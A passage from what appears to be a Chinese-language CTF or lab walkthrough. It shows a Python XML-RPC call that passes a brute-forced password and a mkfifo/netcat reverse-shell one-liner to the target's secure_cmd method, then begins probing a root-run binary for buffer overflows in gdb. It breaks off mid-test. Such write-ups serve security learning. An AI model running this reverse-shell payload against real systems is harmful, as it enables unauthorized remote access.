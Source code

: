 既然得到了密码，就可以在命令这个参数中传递一个反弹 shell，加上爆破的密码，就能够成功得到 shell

测试代码 3：

```plain
import xmlrpc.client

with xmlrpc.client.ServerProxy("http://192.168.56.104:8000") as proxy:
    proxy.secure_cmd("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4444 >/tmp/f",6238)
```

kali 开启对 4444 端口的监听，获得 shell，用户为 socnet

[![](assets/1699406763-1ac35eba6d88cd5b1e248660420c8011.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104213-41ddaae8-7d17-1.png)

目录下存在一个拥有 root 权限执行的程序 add\_record

[![](assets/1699406763-74d43c824038b5b24ff8e6ae232f5191.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104231-4c691966-7d17-1.png)

执行该程序，存在 5 个输入，开启 gdb 调试，依次测试每个输入的位置是否存在溢出

对第一个输入进行测试，结果如下，程序运行终止：
